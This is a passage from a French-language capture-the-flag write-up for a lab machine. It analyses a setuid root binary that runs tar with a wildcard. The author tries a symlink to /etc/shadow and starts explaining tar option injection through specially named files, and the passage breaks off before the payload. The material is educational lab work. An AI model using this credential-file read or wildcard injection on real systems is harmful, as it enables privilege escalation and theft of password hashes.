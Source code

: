 ```console
----------------------------------------------
Flag : VEhNe0Jhc2hfMXNfRnVuXzM4MzEzNDJ9Cg==
----------------------------------------------
by infosecarticles with <3
```

Le binaire n'a pas de message d'aide, mais semble créer une archive tar avec les fichiers du dossier courant :

```console
john@keyring:~$ ./compress -h
john@keyring:~$ ls
archive.tar  compress  user.txt
john@keyring:~$ tar vtf archive.tar 
-rwsr-xr-x root/root     16784 2021-06-20 11:25 compress
-rw-rw-r-- john/john       192 2021-06-20 14:24 user.txt
```

La commande `strings` n'est pas présente, mais on peut utiliser `grep` pour voir ce qu'il fait :

```console
john@keyring:~$ grep -a -o '[[:print:]]\+' compress | grep tar
__libc_start_main
__gmon_start__
/bin/tar cf archive.tar *
tar.c
__init_array_start
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__bss_start
```

Le path de `tar` est absolu, pas d'exploitation de ce côté-là.

Par défaut, `tar` ne suit pas les liens symboliques.

```console
john@keyring:~$ ln -s /etc/shadow shadow
john@keyring:~$ ./compress 
john@keyring:~$ tar vtf archive.tar 
-rwsr-xr-x root/root     16784 2021-06-20 11:25 compress
lrwxrwxrwx john/john         0 2025-06-30 19:39 shadow -> /etc/shadow
-rw-rw-r-- john/john       192 2021-06-20 14:24 user.txt
```

### Lucky Star

On pourrait sans doute tricher là dessus, mais on va plutôt procéder à une injection d'option similaire au CTF [/dev/random: Pipe]({% link _posts/2017-11-17-Solution-du-CTF-devrandom-Pipe-de-VulnHub.md _%}).

J'ai d'abord créé un script `evil.sh` puis nommé quelques fichiers après des options. Quand je lance `compress`, le binaire lance `tar` depuis `bash`. Ce dernier voit la présence du caractère `*` dans la commande `/bin/tar cf archive.tar *` et va remplacer le caractère par les fichiers présents. Certains noms correspondant à des options, `tar` les interprète comme tel :
